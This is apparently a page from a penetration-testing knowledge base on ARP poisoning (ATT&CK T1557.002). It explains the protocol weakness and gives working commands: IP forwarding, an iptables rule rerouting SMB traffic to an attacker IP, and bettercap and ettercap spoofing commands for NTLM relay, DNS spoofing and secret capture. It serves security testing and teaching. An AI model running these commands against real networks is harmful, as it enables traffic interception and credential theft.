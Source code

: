 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1557.002
---
```


# ARP poisoning

## Theory

The ARP \(Address Resolution Protocol\) is used to link IPv4 addresses with MAC addresses, allowing machines to communicate within networks. Since that protocol works in broadcast, attackers can try to impersonate machines by answering ARP requests \(_"Who is using address 192.168.56.1? I am!"_\) or by flooding the network with ARP announcements \(_"Hey everyone, nobody asked but I'm the one using address 192.168.56.1"_\). This is called ARP spoofing \(also called ARP poisoning\).

## Practice

{% hint style="danger" %}
Since spoofing every address in a subnet can cause temporary but severe disruption in that subnet, it is highly recommended to target specific addresses and machines while doing ARP spoofing.
{% endhint %}

There are multiple scenarios where ARP spoofing can be used to operate lateral movement within Active Directory domains \(not an comprehensive list\). 

1. [NTLM capture](../abusing-lm-and-ntlm/capturing-hashes.md) and [NTLM relay](../abusing-lm-and-ntlm/relay.md) : spoof an SMB server and reroute received SMB packets to internal capture or relay servers
2. [DNS spoofing](dns-spoofing.md) : spoof the internal DNS server, so that DNS queries can be answered with fake resolutions
3. [WSUS attacks](../../../systems-and-services/privilege-escalation/windows/wsus-attacks.md) : spoof the WSUS server and deliver evil configurations to Windows clients
4. [Dumping network secrets](../credentials/dumping/network-secrets.md) : reroute any traffic and dump secrets that were insecurely sent \(i.e. FTP, HTTP, SMTP, ...\)

### Preparation

In order to conduct ARP spoofing attacks, the attacker's machine needs to be prepared accordingly \(IP forwarding enabled, outgoing ICMP dropped, internal traffic rerouted\).

```bash
# IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# outgoing ICMP drop (prevents sending port/host unreachable to target)
iptables -A OUTPUT -p ICMP -j DROP

# internal traffic rerouting of SMB packets (port 445, can be changed)
iptables --table nat --append PREROUTING --proto tcp --dst $SPOOFED_IP --dport 445 --jump DNAT --to-destination $ATTACKER_IP:445
```

### Spoofing

Tools like [ettercap](https://www.ettercap-project.org/) \(C\) of [bettercap](https://www.bettercap.org/) \(Go\) can then be used to flood the network with ARP announcements for a specific IP address.

{% tabs %}
{% tab title="Bettercap" %}
The following commands can be used, with parameters as follows

* `set arp.spoof.targets` to set the targets
* `set arp.spoof.internal true` to make bettercap spoof local connections among computers of the network
* `arp.ban on` to start the spoofer in ban mode, meaning the target\(s\) connectivity will not work
* `arp.spoof` on to start the spoofer

```bash
set arp.spoof.targets $TARGET_TO_POISON_IP
set arp.spoof.internal true
arp.ban on
arp.spoof on
```
{% endtab %}

{% tab title="Ettercap" %}
While bettercap is now usally a better alternative to ettercap, the following command can be used for ARP spoofing.

```bash
ettercap --text --quiet --nopromisc --mitm arp:remote /$SWITCH_IP// /$TARGET_TO_POISON_IP//
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/\#arp-spoofing" %}

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/arp.spoof/" %}

{% embed url="https://ivanitlearning.wordpress.com/2019/04/07/arp-dns-poisoning-with-bettercap-and-impacket-ntlmrelayx/" %}

